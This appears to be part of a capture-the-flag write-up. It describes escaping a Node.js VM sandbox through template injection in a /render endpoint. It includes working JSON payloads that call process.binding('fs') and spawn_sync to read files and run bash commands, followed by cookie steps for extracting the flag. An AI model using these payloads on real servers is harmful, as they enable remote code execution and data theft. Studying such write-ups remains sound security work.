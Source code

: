 ### Complete Exploit Flow:

1. **Initial VM Escape Payload:**

   ```
   POST /render
   Content-Type: application/json

   {
     "template": "h1 #{global.process.binding('fs').open('/var/lib/tor/hidden_service/hostname', 0, 0o644)}"
   }
   ```

2. **RCE for Discovery:**

   ```
   POST /render
   Content-Type: application/json

   {
     "template": "h4 #{global.process.binding('spawn_sync').spawn({file: '/bin/bash',args: ['/bin/bash', '-c', 'ls -la /var/lib/tor/'],stdio: [{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}]}).output[1].toString()}"
   }
   ```

3. **Access Hidden Service:**

   - Use Tor browser to navigate to discovered onion address
   - Inspect `script.js` to understand cookie mechanism

4. **Flag Extraction:**
   - Set cookie `secret_agent=1`
   - Access root URL to trigger redirect
   - Extract flag from `x-Real-Flag` header

## Technical Deep Dive

### VM Sandbox Escape Mechanics

Node.js VM module provides isolation but not security:

- Shared global objects like `process` remain accessible
- Constructor prototype pollution can escape sandbox
- Template engines compound the problem by allowing code execution

### Process Binding Exploitation

`process.binding()` is an internal Node.js API that exposes native modules:

- `spawn_sync`: Direct access to process spawning
- `fs`: File system operations without require (uses native C++ signatures)
- Bypasses ES6 module restrictions
